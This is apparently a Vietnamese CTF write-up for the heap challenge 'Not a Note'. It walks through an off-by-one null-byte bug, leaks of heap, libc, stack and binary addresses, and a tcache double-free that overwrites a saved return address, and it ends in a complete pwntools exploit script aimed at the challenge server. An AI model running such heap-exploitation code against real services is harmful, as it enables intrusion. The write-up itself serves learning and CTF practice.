






# Not a Note

```
Points: 964

Description:
I created a note keeper and I'm going to deploy to the public world but not sure if it's safe to protect my server, could you give it a try to see if it's vulnerable or not?

Thanks in advanced!
nc 103.162.14.116 10001
```

# Vừa phân tích vừa khai thác

## Chuẩn bị

```python
def create(idx, title_size, title, content_size, content):
    sla(b"> ", b"1")
    sla(b"Index: ", str(idx).encode())
    sla(b"Title size: ", str(title_size).encode())
    sla(b"Title: ", title)
    sla(b"Content size: ", str(content_size).encode())
    sla(b"Content: ", content)


def edit(idx, option, title):
    sla(b"> ", b"2")
    sla(b"Index: ", str(idx).encode())
    sla(b"> ", str(option))
    if option == 1:
        sla(b"New title: ", title)
    else:
        sla(b"Content size:")
    sla(b"> ", str(3))


def show(idx):
    sla(b"> ", b"3")
    sla(b"Index: ", str(idx).encode())
    p.recvuntil(b"Content: ")
    return u64(p.recvline(keepends=False).ljust(8, b"\0"))


def delete(idx):
    sla(b"> ", b"4")
    sla(b"Index: ", str(idx).encode())
```

## Tìm bug

- Chương trình cho ta title và context, trong đó title sẽ chứa địa chỉ context chunk
- Có off-by-one nullbyte vào địa chỉ context chunk khi ta edit title
  
- Khi này giả sử ở địa chỉ 0x..1200 là một địa chỉ heap hoặc libc, ta hoàn toàn có thể leak, việc bây giờ ta cần setup sao sau khi off-by-one context chunk, 0x..1200 có dữ liệu là heap, libc
  

## Leak heap

- Vì đây chỉ là setup nên không có quá nhiều điều gì để nói

```python
create(0, 0x50, b"title", 0x50, b"content")
create(1, 0x10, b"title", 0x30, b"content")

delete(0)
edit(1, 1, b"a" * 0x10)
heap = show(1) << 12
info("Heap: " + hex(heap))
```

## Leak libc

- Mình fill tcache để free những lần sau sẽ vào unsorted bin

```python
size = 0x120
create(2, size, b"title", size, b"content")
create(3, size, b"title", size, b"content")
create(4, size, b"title", size, b"content")
create(5, 0xA0 - 0x10, b".", 0x90 - 0x10, b".")
create(6, size, b"title", size, b"content")
create(7, size, b"title", size, b"content")
create(0, 0x10, b"title", 0x30, b"a")

delete(2)
delete(3)
delete(4)
delete(5)
delete(6)
delete(7)
```

- Khi này libc address không ở đúng địa chỉ mình cần leak nên mình phải malloc thêm
  

```python
create(2, 0x1A0 - 0x40, b"title", 0x10, b"content")
edit(0, 1, b"a" * 0x10)
libc.address = show(0) - 0x1F6CE0
info("Libc: " + hex(libc.address))
```

## Leak stack & leak exe

- Mình tiếp tục setup để leak stack, tuy nhiên lần này khá khó và mất khá nhiều thời gian
- Đầu tiên mình tính tcache-dup, sau khi dbf xong thì mình nhận ra khi mình malloc environ ra thì bị ghi đè null byte
- Do vậy mình sẽ overlap chunk, tuy nhiên mình lại 1 lần mất thời gian khi overlap chunk 1 lúc khá nhiều chunk và mình đã ghi đè cả size của chunk title, điều đó khiến khi show nó sẽ dựa vào size của chunk title để nhảy đến địa chỉ chỉ context.
- Mình đã đi lại và có ý tưởng sau
  

```python
create(3, 0xF0, b"a", 0x20, b"a")
create(4, 0xC0, b"a", 0x120, b"a")
create(5, 0x50, b"a", 0x50, b"a")
create(6, 0xF0, b"a" * 0xC8 + p64(0x61), 0x20, b"a")
create(7, 0x10, b"a", 0x10, b"a")
edit(7, 1, b"a" * 0x10)
delete(1) # lấy chỗ để malloc
delete(7)
# fake chunk size 0x60 đã được free
```

- Bây giờ mình ghi đè context addr thành environ và edit để ghi stack chứa địa chỉ main
  

```python
create(1, 0x50, b"b" * 8 * 4 + p64(libc.sym.environ), 0x20, b"cc")
stack = show(6)
info("stack: " + hex(stack))
info("ret in stack: " + hex(stack - 0x78))
edit(1, 1, b"a" * 8 * 4 + p64(stack - 0x78))
exe.address = show(6) - exe.sym.main
info("exe base: " + hex(exe.address))
create(7, 0xC0, b"a", 0xC0, b"a")
target = stack - 0x128
```

## DBF

- Sau khi mình check lại note thì mình thấy chunk 0 và chunk 4 có thể dbf được
- Mình dbf để có thể ghi đè saved rip, ở đây mình chọn khi ret của main vì khi option 5, không có exit
  

```python
delete(7) # tăng count
delete(0)
delete(4)
create(0, 0xC0, p64(target ^ (heap + 0x1000) >> 12), 0xC0, b"a")
create(4,0x10, b'a' , 0xc0, b'a'*8+p64(exe.sym.read_function+5))
```

## Script

```python
#!/usr/bin/python3

from pwn import *

exe = ELF("notanote_patched", checksec=False)
libc = ELF("libc.so.6", checksec=False)
context.binary = exe


def GDB():
    if not args.REMOTE:
        gdb.attach(
            p,
            gdbscript="""
                b*read_str+32
                b*main+54
                c
                """,
        )
        input()


info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
    p = remote("103.162.14.116", 10001)
else:
    p = process(exe.path)


def create(idx, title_size, title, content_size, content):
    sla(b"> ", b"1")
    sla(b"Index: ", str(idx).encode())
    sla(b"Title size: ", str(title_size).encode())
    sla(b"Title: ", title)
    sla(b"Content size: ", str(content_size).encode())
    sla(b"Content: ", content)


def edit(idx, option, title):
    sla(b"> ", b"2")
    sla(b"Index: ", str(idx).encode())
    sla(b"> ", str(option))
    if option == 1:
        sla(b"New title: ", title)
    else:
        sla(b"Content size:")
    sla(b"> ", str(3))


def show(idx):
    sla(b"> ", b"3")
    sla(b"Index: ", str(idx).encode())
    p.recvuntil(b"Content: ")
    return u64(p.recvline(keepends=False).ljust(8, b"\0"))


def delete(idx):
    sla(b"> ", b"4")
    sla(b"Index: ", str(idx).encode())


create(0, 0x50, b"title", 0x50, b"content")
create(1, 0x10, b"title", 0x30, b"content")

delete(0)
edit(1, 1, b"a" * 0x10)
heap = show(1) << 12
info("Heap: " + hex(heap))

size = 0x120
create(2, size, b"title", size, b"content")
create(3, size, b"title", size, b"content")
create(4, size, b"title", size, b"content")
create(5, 0xA0 - 0x10, b".", 0x90 - 0x10, b".")
create(6, size, b"title", size, b"content")
create(7, size, b"title", size, b"content")
create(0, 0x10, b"title", 0x30, b"a")

delete(2)
delete(3)
delete(4)
delete(5)
delete(6)
delete(7)
create(2, 0x1A0 - 0x40, b"title", 0x10, b"content")
edit(0, 1, b"a" * 0x10)
libc.address = show(0) - 0x1F6CE0
info("Libc: " + hex(libc.address))

create(3, 0xF0, b"a", 0x20, b"a")
create(4, 0xC0, b"a", 0x120, b"a")
create(5, 0x50, b"a", 0x50, b"a")
create(6, 0xF0, b"a" * 0xC8 + p64(0x61), 0x20, b"a")
create(7, 0x10, b"a", 0x10, b"a")
edit(7, 1, b"a" * 0x10)
delete(1)  # lấy chỗ để malloc
delete(7)
GDB()

# # 0x5620ff90f220

create(1, 0x50, b"b" * 8 * 4 + p64(libc.sym.environ), 0x20, b"cc")
stack = show(6)
info("stack: " + hex(stack))
info("ret in stack: " + hex(stack - 0x78))
edit(1, 1, b"a" * 8 * 4 + p64(stack - 0x78))
exe.address = show(6) - exe.sym.main
info("exe base: " + hex(exe.address))
create(7, 0xC0, b"a", 0xC0, b"a")
target = stack - 0x128
# ## dbf
delete(7)
delete(0)
delete(4)
create(0, 0xC0, p64(target ^ (heap + 0x1000) >> 12), 0xC0, b"a")
create(4,0x10, b'a' , 0xc0, b'a'*8+p64(exe.sym.read_function+5))
print(hex(target))
print(hex(heap + 0x1170))
print(hex(libc.sym.environ))
print(hex(heap))
sla(b"> ", b"5")

p.interactive()
```
